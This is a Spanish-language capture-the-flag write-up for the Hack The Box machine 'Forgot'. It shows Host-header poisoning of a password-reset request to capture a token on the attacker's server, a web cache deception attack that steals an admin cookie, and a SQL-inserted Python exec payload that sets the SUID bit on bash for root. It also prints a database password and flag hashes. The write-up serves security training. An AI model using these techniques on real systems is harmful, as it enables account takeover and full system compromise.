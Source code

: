 ```yaml
---
title: Forgot Writeup
author: miguel3023
date: 2022-11-19
categories: [Writeup, HTB]
tags: [Linux, CTF, Medium]
image:
  path: ../../assets/img/commons/Forgot/Forgot.png
  width: 800
  height: 450 
---
```


## Reconocimiento

Primeramente realizamos un escaneo con nmap para detectar los puertos abiertos

```
❯ nmap -p- -sS --min-rate 5000 --open -v -n -Pn 10.10.11.188 -oG OpenPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:34 -05
Initiating SYN Stealth Scan at 00:34
Scanning 10.10.11.188 [65535 ports]
Discovered open port 80/tcp on 10.10.11.188
Discovered open port 22/tcp on 10.10.11.188
Completed SYN Stealth Scan at 00:34, 13.78s elapsed (65535 total ports)
Nmap scan report for 10.10.11.188
Host is up (0.22s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Con **whatweb** podemos ver qué tecnologías emplea la web que hay en el puerto 80

```
❯ whatweb http://10.10.11.188
http://10.10.11.188 [503 Service Unavailable] Country[RESERVED][ZZ], HTML5, HTTPServer[Varnish], IP[10.10.11.188], Title[503 Backend fetch failed], UncommonHeaders[retry-after,x-varnish], Varnish, Via-Proxy[1.1 varnish (Varnish/6.2)]

```

Luego con nmap detectamos la versión y los servicios que están en los puertos que encontramos previamente abiertos

```
❯ nmap -sC -sV -p22,80 10.10.11.188 -oN Versions
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:55 -05
Nmap scan report for 10.10.11.188
Host is up (0.11s latency).

PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http-proxy Varnish http accelerator
|_http-title: 503 Backend fetch failed
|_http-server-header: Varnish
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora fuzzeamos por directorios a ver qué encontramos.

`Nota:` Nos tiene que aparecer un panel de login en la propia web, si no te aparece reinicia la máquina (me sucedió por eso lo menciono)

```
❯ wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.11.188/FUZZ

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                       
=====================================================================

000000001:   200        245 L    484 W      5186 Ch     "# directory-list-2.3-medium.txt"                                             
000000007:   200        245 L    484 W      5186 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"             
000000008:   200        245 L    484 W      5186 Ch     "# or send a letter to Creative Commons, 171 Second Street,"                  
000000003:   200        245 L    484 W      5186 Ch     "# Copyright 2007 James Fisher"                                               
000000010:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000005:   200        245 L    484 W      5186 Ch     "# This work is licensed under the Creative Commons"                          
000000014:   200        245 L    484 W      5186 Ch     "http://10.10.11.188/"                                                        
000000006:   200        245 L    484 W      5186 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"               
000000002:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000004:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000013:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000009:   200        245 L    484 W      5186 Ch     "# Suite 300, San Francisco, California, 94105, USA."                         
000000012:   200        245 L    484 W      5186 Ch     "# on atleast 2 different hosts"                                              
000000011:   200        245 L    484 W      5186 Ch     "# Priority ordered case sensative list, where entries were found"            
000000038:   302        5 L      22 W       189 Ch      "home"                                                                        
000000053:   200        245 L    484 W      5189 Ch     "login"                                                                       
000001706:   200        252 L    498 W      5227 Ch     "forgot"                                                                      
000002357:   302        5 L      22 W       189 Ch      "tickets"                    

```
## Intrusión

En en código fuente podemos ver un usuario potencial

```html
<!-- Q1 release fix by robert-dev-145092 -->
```
Nos montamos un servidor con python por el puerto 80

```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ahora en la ruta **/forgot** que encontramos anteriormente colocamos el usuario que vimos. Realizamos la petición y capturamos la petición con Burpsuite y cambiamos el HOST por nuestra ip y el puerto donde tenemos el servidor

```
GET /forgot?username=robert-dev-145092 HTTP/1.1
Host: 10.10.16.47:80
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.11.188/forgot
```
Ahora interceptamos la petición de **/reset** colocando el token que nos dio de manera urlencodeada para luego iniciar sesión como **robert-dev-145092**. (Si no te funciona el token a la primera, intenta nuevamente con otro token que te da si te quedaste en escucha con python)

![Burpsuite]({{ 'assets/img/commons/Forgot/Burp.png' | relative_url }}){: .center-image }
_Petición por Burp_

Una vez obtenido el acceso a la web, vemos que en el apartado **/escalate** podemos enviarle un link para que el admin haga click en él.También si vemos el código fuente en el apartado de escalate podemos ver una ruta **/admin_tickets** si intentamos ingresar vemos que nos dice acceso denegado. Para obtener acceso a esa ruta lo que podemos hacer es lo siguiente:


![Burpsuite]({{ 'assets/img/commons/Forgot/inexistent.png' | relative_url }}){: .center-image }
_Petición por Burp_

Una vez hemos hecho esto, colocamos en la url lo mismo que le mandamos al admin sólo que hasta **/js** porque o sino Burpsuite no nos intercepta la petición, la mandamos al repeater y allí le colocamos **/test.js** 

![Burpsuite]({{ 'assets/img/commons/Forgot/cambiamos.png' | relative_url }}){: .center-image }
_Petición por Burp_


Veremos que nos dice "404 not found", esto es porque ahora simplemente lo hay que hacer es enviarle otra vez a admin el link, pero esta vez, ponle otra **s** al final del "/test/js", quedaría tal que así "/test.jss" y esperas un poco a que admin le dé click a ese link. Una vez hecho esto, simplemente en la petición anterior, le agregas una **s**

![Burpsuite]({{ 'assets/img/commons/Forgot/cookie.png' | relative_url }}){: .center-image }
_Petición por Burp_

Listo, ya hemos hecho un "cache deception attack" y capturado la cookie de admin en el lado de la respuesta, ahora sólo resta acceder a "/admin_tickets". Simplemente intercepta con Burpsuite y cambias la cookie de session de tu usuario actual por la de admin. y veremos las credenciales del usuario por ssh

![Burpsuite]({{ 'assets/img/commons/Forgot/credenciales.png' | relative_url }}){: .center-image }
_Credenciales_

Nos conectamos por ssh

```
-bash-5.0$ whoami
diego
-bash-5.0$ cat user.txt 
4929615d53c0dcd5c4e69e18d1665e38
-bash-5.0$
```
Podemos ver un script "bot.py" y que se conecta a la base de datos

```python
-bash-5.0$ cat bot.py 
   # Fetch Links
  conn = mysql.connector.connect(host="localhost",database="app",user="diego",password="dCb#1!x0%gjq")
  cursor = conn.cursor()
  cursor.execute('select * from forgot')
  r = cursor.fetchall() 
```

Si hacemos sudo -l podemos ver que tenemos un script que podemos ejecutar de manera privilegiada, si lo vemos nos muestra lo siguiente:`

```python
 # Grab links
 conn = mysql.connector.connect(host='localhost',database='app',user='diego',password='dCb#1!x0%gjq')
 cursor = conn.cursor()
 cursor.execute('select reason from escalate')
 r = [i[0] for i in cursor.fetchall()]
 conn.close()
 data=[]
 for i in r:
         data.append(i)
 Xnew = getVec(data)
```

También podemos ver esto 

```python
def assessData(i):
    score = ((.175*ynew1[i])+(.15*ynew2[i])+(.05*ynew3[i])+(.075*ynew4[i])+(.25*ynew5[i])+(.3*ynew6[i]))
    if score >= .5:
        try:
                preprocess_input_exprs_arg_string(data[i],safe=False)
        except:
                pass
```

Lo que hace es verificar patrones maliciosos en la base de datos. Si cargamos esto, podemos inyectar código para que se ejecute. Nos conectamos a la base de datos y ejecutamos lo siguiente:

```
mysql> insert into escalate values ("1","1","1",'test=exec("""\nimport os\nos.system("chmod +s /usr/bin/bash")""")');

```

Ahora hacemos **bash -p y obtenemos root**

```
-bash-5.0$ bash -p
bash-5.0# cat /root/root.txt 
d41b9cbb909802752553be9dd7c82720
bash-5.0#
```

